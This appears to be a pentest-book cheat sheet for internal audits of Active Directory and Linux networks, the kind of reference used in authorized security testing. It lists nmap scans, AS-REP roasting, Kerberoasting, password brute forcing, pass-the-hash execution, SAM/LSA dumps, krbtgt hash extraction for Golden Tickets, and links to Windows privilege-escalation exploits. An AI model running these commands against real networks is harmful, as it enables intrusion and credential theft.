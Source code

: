 # Internal Audit - Plan

{% embed url="https://pentestbook.six2dez.com/others/internal-pentest" %}

{% file src="../../.gitbook/assets/Pentest_Active_Directory_Environment_1666475020.pdf" %}

## Network discovery

### Scanning

```bash
# Ping discovery, Top 20, fragment packets, no DNS resolution
nmap -v --top-ports 20 $ip/24 -f -n --open -oA
# Ping discovery, Top 200, fragment packets, no DNS resolution, service version
nmap -v --top-ports 200 $ip/24 -f -n -sV --open -oA
# Top 1000, fragment packets, no DNS resolution, service version, all alive (no ping)
nmap -v --top-ports 1000 $ip/24 -f -n -sV -Pn --open -oA
```

## Windows AD

{% embed url="https://wadcoms.github.io" %}
Check this
{% endembed %}

### If you have no credentials

```bash
# Detect SMB on network
responder-RunFinger -i X.X.X.0/24

# Find DC
nslookup -q=srv _ldap._tcp.dc._msdcs.<domain.name>
nslookup -type=srv _ldap._tcp.<domain.name> | grep ldap | cut -d ' ' -f 6 | sed 's/\.$//g'

# Enumerate DC
ldapsearch -h <DC.IP> -x -s base namingcontexts

# Check for null session, if got users go for ASREPRoast with GetNPUsers
ldapsearch -h <DC.IP> -x -b "DC=XX,DC=XX"

# Get hashes with no krb preauth
GetNPUsers.py [Domain Name]/ -dc-ip [Domain Controller IP address] -request
GetNPUsers.py 'DC.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.10

# Get domain name
crackmapexec smb 10.10.10.10
smbmap -H $dc_ip -u '' -p ''

# Get Users List
GetADUsers.py DC.local/ -dc-ip $dc_ip -debug

# Get Users from ldap
windapsearch -U — full — dc-ip $dc_ip

# Get base domain
ldapsearch -x -h $dc_ip -s base namingcontexts

# Get more info from DC
ldapsearch -x -h $dc_ip -b ‘DC=DCNAME,DC=LOCAL’

# User Domain info
Get-ADUser $name

# Forest info
Get-ADForest

# Get all computers in the current domain
Get-NetComputer
```

#### Kerberos

```bash
# Kerberoasting (hashcat 13100)
GetUserSPNs.py -request -save -dc-ip <IP> domain/user # hashcat 13100

# BF
kerbrute.py -d <DC.LOCAL> -users <users_file> -passwords <passwords_file> -outputfile <output_file>

# ASREPRoast (hashcat 18200)
GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# PTH/PTK
# Request ticket
getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
getTGT.py <domain_name>/<user_name>:[password]
# Set ticket
export KRB5CCNAME=<TGT_ccache_file>
# Use it
psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
psexec.py -hashes 'hash' -dc-ip 10.10.10.10 username@10.10.10.10
smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

### If you have credentials

```bash
# Enum AD AIO
# https://github.com/CasperGN/ActiveDirectoryEnumeration
python3 -m ade --dc <domain.name> -u <user@domain.name> --help
# https://github.com/adrecon/ADRecon from Windows on Domain

# windapsearch
# https://github.com/ropnop/go-windapsearch
windapsearch -d <domain>.<name> -u <user> -p <password> --help

# LDAP
# Domain users
ldapsearch -LLL -x -H ldap://<DC.IP> -D "<USER>@<DOMAIN.NAME>" -w '<PASSWORD>' -b dc=<DOMAIN NAME>,dc=<DOMAIN NAME> -o ldif-wrap=no "(&(objectClass=user)(objectCategory=person))" name sAMAccountName userPrincipalName memberOf primaryGroupID adminCount userAccountControl description servicePrincipalName objectSid pwdLastSet lastLogon -E pr=1000/noprompt | tee domain_users.txt

# Domain computers
ldapsearch -LLL -x -H ldap://<DC.IP> -D "<USER>@<DOMAIN.NAME>" -w '<PASSWORD>' -b dc=<DOMAIN NAME>,dc=<DOMAIN NAME> -o ldif-wrap=no "(objectClass=computer)" name dNSHostname memberOf operatingSystem operatingSystemVersion lastLogonTimestamp servicePrincipalName description userAccountControl | tee domain_computers.txt

# Domain groups
ldapsearch -LLL -x -H ldap://<DC.IP> -D "<USER>@<DOMAIN.NAME>" -w '<PASSWORD>' -b dc=<DOMAIN NAME>,dc=<DOMAIN NAME> -o ldif-wrap=no "(objectClass=group)" name sAMAccountName memberOf member description objectSid | tee domain_groups.txt

# RPClient - enumeration users, groups, ...
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c dsr_enumtrustdom
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c enumdomains
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c enumdomusers
rpcclient -U "DOMAIN/username%password" <domaincontroller name or IP>" -c enumdomgroups

# CME
# Run commands

# PS
cme smb <IP> -u <USER> -p '<PASS>' -X 'Get-Host'
# CMD
cme smb <IP> -u <USER> -p '<PASS>' -x whoami
# PTH
cme smb <IP> -u <USER> -H <NTHASH> -x whoami
# Other methods
cme smb <IP> -u <USER> -p '<PASS>' --exec-method {mmcexec,smbexec,atexec,wmiexec}

# Dumps

# SAM
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --sam
# LSASS
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --lsa
# Sessions
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --sessions
# Logged users
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --loggedon-users
# Disks
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --disks
# Users
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --users #Enumerate users
# Groups
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --groups
# Local groups
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --local-groups
# Password policy
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --pass-pol
```

#### Dumps secrets

```bash
# User hash
secretsdump.py '<DC.NAME>/<User>@<DC.IP>' -just-dc-user user1

# krbtgt hash dump -> Golden Ticket
secretsdump.py '<DC.NAME>/<User>@<DC.IP>' -just-dc-user krbtgt
```

### Local Privilege Escalation

#### Juicy Potato&#x20;

{% hint style="info" %}
#### Abuse SeImpersonate or SeAssignPrimaryToken Privileges for System Impersonation

Works only until Windows Server 2016 and Windows 10 until patch 1803.
{% endhint %}

{% embed url="https://github.com/ohpe/juicy-potato" %}

{% embed url="https://github.com/TsukiCTF/Lovely-Potato" %}

#### PrintSpoofer&#x20;

{% hint style="info" %}
#### Exploit the PrinterBug for System Impersonation

Works for Windows Server 2019 and Windows 10.
{% endhint %}

{% embed url="https://github.com/itm4n/PrintSpoofer" %}

#### RoguePotato&#x20;

{% hint style="info" %}
#### From Service Account to System

Works for Windows Server 2019 and Windows 10.
{% endhint %}

{% embed url="https://github.com/antonioCoco/RoguePotato" %}

#### Abusing Token Privileges

{% embed url="https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation" %}

#### SMBGhost CVE-2020–0796

{% embed url="https://github.com/danigargu/CVE-2020-0796" %}

#### CVE-2021–36934 (HiveNightmare/SeriousSAM)

{% embed url="https://github.com/cube0x0/CVE-2021-36934" %}

## Linux

### Lynis

{% hint style="info" %}
Lynis is a **battle-tested security tool** for systems running Linux, macOS, or Unix-based operating system. It performs an extensive health scan of your systems to support system hardening and compliance testing.&#x20;
{% endhint %}

In order to install **Lynis** on your system, you must follow these steps :

```bash
git clone https://github.com/CISOfy/lynis.git
cd lynis
./lynis audit system -Q
```
